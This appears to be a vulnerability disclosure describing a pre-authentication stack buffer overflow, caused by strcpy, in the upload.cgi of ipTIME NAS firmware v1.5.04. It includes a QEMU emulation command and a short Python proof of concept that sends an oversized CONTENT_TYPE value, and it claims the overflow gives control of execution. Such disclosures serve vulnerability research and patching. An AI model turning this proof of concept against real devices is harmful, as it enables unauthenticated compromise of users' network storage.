

**Affected Product**: iptime_nas

**Affected Firmware Versions**: v1.5.04

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 


# Buffer Overflow in upload.cgi of iptime_nas_1.5.04


## The principle of the vulnerability


It can be observed that the vulnerability is caused by strcpy. Since the authentication logic is executed after the strcpy operation, this constitutes a **pre-authentication vulnerability**.
    


## Use QEMU for simulation

```
command = f'sudo chroot . ./qemu-arm-static -L ./lib -g 1234 ./usr/webroot/upload.cgi'
```


## poc：

```
import os


count_ones = 5000
content_type_value = 'A' * count_ones


command = f'sudo chroot . ./qemu-arm-static -L ./lib -g 1234 -E CONTENT_TYPE={content_type_value} ./usr/webroot/upload.cgi'


os.system(command)
    
```


## The result of the attack.

It can be seen that the stack space allocated by V8 is 08h.





Eventually, the overflow reaches 0xd0, and the execution flow of the program is controlled. If necessary, more overflow can be achieved.
